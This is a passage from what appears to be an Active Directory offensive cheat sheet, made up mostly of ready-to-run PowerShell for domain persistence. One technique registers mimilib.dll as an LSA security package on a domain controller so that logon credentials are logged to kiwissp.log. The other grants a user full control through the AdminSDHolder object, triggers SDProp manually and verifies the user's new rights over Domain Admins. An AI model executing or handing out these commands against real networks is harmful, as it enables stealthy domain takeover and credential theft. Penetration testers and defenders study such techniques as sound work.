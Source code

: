 Upload the `mimilib.dll` to **system32** and add mimilib to `HKLM\SYSTEM\CurrentControlSet\Control\Lsa\Security Packages` :

```powershell
$packages = Get-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\ -Name 'Security Packages'| select -ExpandProperty 'Security Packages'
$packages += "mimilib"
Set-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\ -Name 'Security Packages' -Value $packages
```

All local logons on the DC are logged to `C:\Windows\system32\kiwissp.log`

### DACLs - AdminSDHolder

AdminSDHolder is a solution that compares the ACLS of the objects with `AdminCount=1` with a list of ACLs. If the ACLs of the objects are different, they are overwritten. The script run normally every hour.

#### Attack

* With write privs on the AdminSDHolder object, it can be used for persistence by adding a user with Full Permissions to the AdminSDHolder object for example.
* When the automatic script will run, the user will be added with Full Control to the AC of groups like Domain Admins.

```powershell
#PowerView
Add-ObjectAcl -TargetSearchBase 'CN=AdminSDHolder,CN=System' -PrincipalIdentity user1 -Rights All -Verbose

#AD Module
Set-ADACL -DistinguishedName 'CN=AdminSDHolder,CN=System,DC=domain,DC=local' -Principal user1 -Verbose
```

#### Run SDProp manually

```powershell
Invoke-SDPropagator -timeoutMinutes 1 -showProgress -Verbose
#Pre-Server 2008
Invoke-SDPropagator -taskname FixUpInheritance -timeoutMinutes 1 -showProgress -Verbose
```

#### Check Domain Admins DACLs

```powershell
#PowerView
Get-ObjectAcl -SamAccountName "Domain Admins" -ResolveGUIDs | ?{$_.IdentityReference -match 'user1'}

#AD Module
(Get-Acl -Path 'AD:\CN=Domain Admins,CN=Users,DC=domain,DC=local').Access | ?{$_.IdentityReference -match 'user1'}
```
